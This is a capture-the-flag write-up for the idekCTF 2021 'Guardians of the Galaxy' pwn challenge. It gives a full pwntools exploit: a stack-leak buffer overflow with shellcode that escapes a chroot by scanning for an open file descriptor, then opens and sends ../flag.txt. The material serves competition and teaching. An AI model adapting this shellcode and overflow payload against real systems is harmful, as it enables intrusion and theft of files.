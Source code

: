 **Guardians of the Galaxy**

was pwn challenge from idekCTF 2021

A sort of chroot escape shellcode, with a seccomp..

The goal was to find the only remaining filedescriptor opened outside the chroot,

to access file ../flag.txt relatively to this filedescriptor with openat function..

for doing this we just start from highest possible fd number (1003 in this case..)

and we decrease it until we can open ../flag.txt relatively to this fd..

when we have found the good one ..it just works...

simple as 1...2...3...

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/Guardians.of.the.Galaxy/pics/gotshell.gif)

the exploit:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./rocket')

host, port = "gotg.chal.idek.team", "1337"

if args.REMOTE:
  p = remote(host,port)
else:
  p = remote('127.0.0.1', 1337)

p.recvuntil('journey:',drop=True)

leak = int(p.recvuntil('\n',drop=True),16)
print('stack leak = '+hex(leak))

shellc = asm('''
  mov ebp,1003
loopy:
  mov edi,ebp
  push 257
  pop rax
  lea rsi,fname[rip]
  xor edx,edx
  push rdx
  pop r10
  syscall
  cmp rax,3
  jge next
  dec ebp
  jnz loopy
next:
 
  push rax
  pop rsi
  push 40
  pop rax
  push 1
  pop rdi
  xor edx,edx
  mov r10,64
  syscall

  push 60
  pop rax
  syscall
fname:
  .string "../flag.txt"
''')

print(hexdump(shellc))

payload = shellc.ljust(0x820,b'\x90')+p64(leak+0x820)+p64(leak)

p.sendline(payload)

p.interactive()
```

*nobodyisnobody still pwning things*

